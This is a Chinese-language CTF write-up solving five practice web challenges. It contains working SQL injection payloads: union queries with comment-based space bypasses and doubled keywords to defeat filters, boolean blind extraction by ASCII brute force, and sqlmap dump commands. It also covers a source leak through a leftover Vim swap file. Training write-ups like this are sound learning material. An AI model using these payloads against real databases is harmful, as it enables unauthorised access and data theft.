 # ctf.mukeran.cn/writeups/web/1/

本次WriteUp中四道题为SQLi，一道题为源代码分析，这是我第一次做CTF题目并写WriteUp，如不规范敬请谅解。  
因未找到合适的图床，这篇WriteUp里面没有图片，可能以后会补上...

[简单的SQL注入 - 实验吧](http://www.shiyanbar.com/ctf/1875 "前往实验吧")
----
1. `id=1'` 发现报SQL格式错误，可能存在字符型注入
2. `id=1' and '1'='1` 无返回值，可能被关键词过滤，于是直接尝试`id=1'/**/and/**/'1'='1`，发现有返回值(事实上看其他WP发现是过滤了and和一个空格，包括其他的select等)，尝试`id=1'/**/and/**/'1'='2`，发现无返回值。
3. 然后`id=1'/**/union/**/select/**/database()'`，发现当前数据库的名称为`web1` (这里有一个注意的是，经测试`select database()`后面可以紧跟一对`''`，而不能使用`where`，其他`select`需要`where '1'='1`来完成`''`的配对)
4. 然后`id=1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/table_schema='web1'/**/and/**/'1'='1` 发现报错，根据SQL错误信息，发现可能是table\_schema被过滤了，我们将其替换为table\_table\_schemaschema，即`id=1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/table_table_schemaschema='web1'/**/and/**/'1'='1` 得到可疑的table--flag
5. 然后`id=1'/**/union/**/select/**/column_name/**/from/**/information_schema.columns/**/where/**/table_table_schemaschema='web1'/**/and/**/table_name='flag'/**/where/**/'1'='1` 发现又报错了，这次information\_schema.columns和column\_name被过滤了，然后`id=1'/**/union/**/select/**/column_column_namename/**/from/**/information_information_schema.columnsschema.columns/**/where/**/table_table_schemaschema='web1'/**/and/**/table_name='flag'/**/and/**/'1'='1` 得到可疑的column--flag
6. 最后`id=1'/**/union/**/select/**/flag/**/from/**/flag/**/where/**/'1'='1` 得到flag

[简单的SQL注入2 - 实验吧](http://www.shiyanbar.com/ctf/1908 "前往实验吧")
----
1. 用上面那道题的步骤进行尝试，在第2步时用database()发现被过滤，于是直接`id=1'/**/union/**/select/**/schema_name/**/from/**/information_schema.schemata/**/where/**/'1'='1` 得到可疑的database--web1
2. 接着用上面那道题的步骤测试，发现第5步报错，应该是删除了过滤table_schema, information_schema.columns, column_name，修改`id=1'/**/union/**/select/**/column_name/**/from/**/information_schema.columns/**/where/**/table_schema='web1'/**/and/**/table_name='flag'/**/and/**/'1'='1` 得到可疑column--flag
3. 最后`id=1'/**/union/**/select/**/flag/**/from/**/flag/**/where/**/'1'='1` 得到flag

两道题过滤规则不同


[简单的SQL注入3 - 实验吧](http://www.shiyanbar.com/ctf/1909 "前往实验吧")
----
1. `id=1` 返回Hello!，`id=1'` 报错，存在字符型注入，`id=1' and '1'='1` 返回Hello!，`id=1' and '1'='2` 无返回，可以boolean注入
2. 利用SQL报错获得数据库名`id=1' and (select count(*) from 表名) > 0 and '1'='1`(也可以`> 0 #`用`#`注释掉后面的内容进行尝试，但是这样做的话如果原程序中本来后面还有一些必要的语句，则会失败报错)，得到数据库名web1
3. 用字典爆破的方法爆破flag所在table。先试试flag`id=1' and (select count(*) from information_schema.tables where table_schema='web1') > 0 and '1'='1`，返回Hello!，说明存在表flag
4. 用字典爆破的方法爆破表flag中的列。同样先试flag`id=1' and (select count(flag) from flag) > 0 and '1'='1`，返回Hello!，说明存在列flag，`id=1' and (select count(flag) from flag) > 1 and '1'='1`，无返回，说明就只有一行
5. 那么flag一定是在flag列，唯一的一行里面了，我们枚举爆破一下flag的长度`id=1' and (select length(flag) from flag) > {length} and '1'='1`，得到长度为26
6. 我们用ASCII爆破，用burp或者写一个Python脚本`id=1' and ascii(substr((select flag from flag), {start}, 1))={ascii} and '1'='1`爆破得到flag

后面爆破用burp或者Python，写Python其实也比较简便，后面会补充代码


[这个看起来有点简单! - 实验吧](http://www.shiyanbar.com/ctf/33 "前往实验吧")
----
1. `id=1'`，发现报错，可能存在字符型注入。然后`id=1' and '1'='1`发现还是报错，说明程序中`id={?}`并未加引号，直接尝试`id=1 and 1=1`正常查询，`id=1 and 1=2`无结果，说明可以布尔型注入
2. 尝试`union select`，发现并不行，且网页的输出是按字段输出的，所以`union`查询可能不可行(手动做的话只能用count了)
3. 用sqlmap.py尝试`sqlmap.py -u "http://ctf5.shiyanbar.com/8/index.php?id=1" --current-db`可以正常查询到当前数据库"my_db"
4. `sqlmap.py -u "http://ctf5.shiyanbar.com/8/index.php?id=1" -D "my_db" --tables` 得到table--thiskey
5. `sqlmap.py -u "http://ctf5.shiyanbar.com/8/index.php?id=1" -D "my_db" -T "thiskey" --dump"` 得到flag


[忘记密码了 - 实验吧](http://www.shiyanbar.com/ctf/1808 "前往实验吧")
----
1. 随便输入之后，点击提交，发现alert了一个step2.php的url
2. 进入step2.php，发现直接显示页面后被跳转回step1.php，我们直接用浏览器`view-source:http://ctf5.shiyanbar.com/10/upload/step2.php` 发现其中一个form将内容提交到了submit.php，并且页面中我们看到有Vim留下来的meta，有可能是因为Vim编辑的swap文件没有被删除
3. 访问submit.php，提示不是管理员，我们先尝试一下这个目录中是否有submit.php的swap文件，访问.submit.php.swp，发现真有，里面部分代码：
```php
if(!empty($token)&&!empty($emailAddress)){
	if(strlen($token)!=10) die('fail');
	if($token!='0') die('fail');
	$sql = "SELECT count(*) as num from `user` where token='$token' AND email='$emailAddress'";
	$r = mysql_query($sql) or die('db error');
	$r = mysql_fetch_assoc($r);
	$r = $r['num'];
	if($r>0){
		echo $flag;
	}else{
		echo "失败了呀";
	}
}
```
发现这个token的长度是10，根据上面还要求邮箱为管理员邮箱，我们分析step2.php网页源码，发现meta留下管理员邮箱，并且swap文件里面有数据库结构，其中token有default '0'，我们直接尝试token为000000000，发现正确，得到flag